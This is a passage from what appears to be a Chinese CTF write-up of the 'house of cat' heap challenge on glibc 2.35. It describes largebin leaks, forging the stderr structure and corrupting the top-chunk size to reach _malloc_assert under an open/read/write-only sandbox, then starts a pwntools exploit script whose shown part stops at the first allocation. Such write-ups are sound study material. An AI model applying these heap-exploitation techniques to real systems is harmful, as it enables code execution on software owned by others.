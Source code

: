 
**show 函数打印0x30字节数据，没有截断**


**[![](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240916124404206-1462532137.png)](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240916124404206-1462532137.png)**


**程序还开了沙箱只能orw，而且read的第一个参数必须是0，那么就是要先要关闭文件描述符0，然后再次使用read**


**[![](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240916131442579-2106156456.png)](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240916131442579-2106156456.png)**


 


**那么思路很明显，通过largebin 来一次泄露libc地址和堆块地址，然后两次edit，第一个修改stderr结构体（以为malloc\_assert会调用stderr来输出报错信息），第二次修改top\_chunk来修改size来触发 \_malloc\_assert，那么这里就要注意了伪造结构结构体时候一定要注意布局还有它们之间的调用关系**


**EXP：**



```
from gt import *

con("amd64")

io = process("./houseofcat")
libc = ELF("/home/su/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc-2.35.so")

#gdb.attach(io)
io.sendafter("mew mew mew~~~~~~\n","LOGIN | r00t QWB QWXFadmin")


def add(index,size,msg='\x00'):
    io.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff")
    io.sendlineafter("choice:\n","1")
    io.sendlineafter("cat idx:\n",str(index))
    io.sendlineafter("cat size:\n",str(size))
    io.sendafter("your content:\n",msg)



def free(index):
    io.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff")
    io.sendlineafter("choice:\n","2")
    io.sendlineafter("cat idx:\n",str(index))




def show(index):
    io.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff")
    io.sendlineafter("choice:\n","3")
    io.sendlineafter("cat idx:\n",str(index))



def edit(index,msg):
    io.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff")
    io.sendlineafter("choice:\n","4")
    io.sendlineafter("cat idx:\n",str(index))
    io.sendafter("your content:\n",msg)



add(0,0x420) #0
```